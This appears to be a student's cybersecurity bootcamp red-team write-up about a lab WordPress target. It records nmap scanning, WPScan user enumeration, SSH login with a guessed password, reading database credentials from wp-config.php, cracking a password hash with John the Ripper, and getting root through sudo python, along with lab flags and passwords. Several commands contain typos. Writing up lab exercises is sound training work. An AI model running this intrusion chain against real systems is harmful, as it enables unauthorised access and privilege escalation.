 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

`nmap 192.168.1.0/24`

![full nmap 1](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/full%20nmap%20part%201.PNG)
![full nmap 2](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/full%20nmap%20part%202.PNG)

## Target 1

`nmap 192.168.1.110`



This scan identifies the services below as potential points of entry:
- Target 1
  - Exposed Services
  * Open Port 22/TCP - SSH
  * Open Port 80/TCP - HTTP
  * Open Port 111/TCP - rpcbind
  * Open Port 139/TCP - netbios-ssn
  * Open Port 445/TCP - microsoft-ds

The following vulnerabilities were identified on each target:
- Target 1
  - User Enumeration (WordPress Site)
  - Weak User Password
  - Unsalted User Password Hash (WordPress Database)
  - Misconfiguration of User Privileges/Privilege Escalation

![nmap target 1](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/nmap%20target%201.PNG)

### Exploitation
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: `b9bbcb33ellb80be759c4e844862482d`
    - **Exploit Used**
      - WPscan was used from the attack machine to enumerate the users on the Target1 wordpress site
      - The Command use
        - `wpscan --url 192.168.1.110/wordpress/ -enumerate u`
      - SSH'd into `192.168.1.110` using the user `Michael` guessed the weak password `Michael`
      - Navigated to /var/wwww/html/
      - Ran `nano services.html` and in the footer information found Flag 1

![wordpress 1](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/word%20press%201.PNG)

![wordpress 2](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/word%20press%202.PNG)

**Flag 1**

![Flag1](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/flag%201.png)

  - `flag2.txt`:`flag2{fc3fd58dcdad9ab23faca6e9a3e581c}`
    - **Exploit Used**
      - Flag 2 was located while exploring `Target1` to find other potential useful files.
      - `cd ..`
      - `ls`
      - `nano flag2.txt`

**Flag 2**
![flag2](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/flag%202.PNG)

 - `flag3.txt`:`flag3{afc01ab56b50591e7dccf93122770cd2}`
    - **Exploit Used**
      - During infiltration `wp-config.php` was found at `/var/www.html/wordpress`
      - `nano wp-config.php` and found the admin user is `root` and the password is `R@v3nSecurity`
      - `Crtl X` to exit nano.
      - `myspql --user=root --password=R@v3nSecurity -h 127.0.0.1` to enter the database
      - `showdatabases;` to view databases
      - `use wordpress;` to use the wordpress database
      - `select * from wp_posts;` to find flag3 and flag4 in wp_posts.
      - `select * from wp_users;` to find users and password hashes.

![user & pass](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/pass%20%26%20user.PNG)

![enter pass](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/enter%20pass.PNG)

![sql 1](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/sql.PNG)

![sql 2](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/sql%20hashes.PNG)

**Flag 3**
![Flag3](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/flag%203%20%26%204.PNG)

 - `flag4.txt`:`flag4{715dea6c055b9fe3337544932f2941ce}`
    - **Exploit Used**
      - Simple password and unsalted hash
        - Created a hash.txt that contained user `steven` hash `$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/` on attacking machine
        - Copied `Rockyou.txt` from `/usr/share/wordlists/rockyou.txt wp_hashes.txt` incase it is needed for another hash crack. 
        - Ran `john hash.txt --wordlist=rockyou.txt` and found that the password is `pink84`
        - Ran `-ssh steven@192.168.1.110` using pink84 as the password. 
        - Ran `sudo python -c "import pty;pty.spawn('/bin/bash')"` this gave Root privileges
        - `CD /root`
        - `ls` saw flag4.txt
        - `cat flag4.txt` to find the flag.

![john hashes](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/john%20hashes.PNG)

**Flag 4**
![flag4](https://github.com/dsteves28/CyberSecurity-Bootcamp/blob/main/Final%20Project/1.%20Red%20Team%20-Summary%20of%20Operations/flag%203%20%26%204.PNG)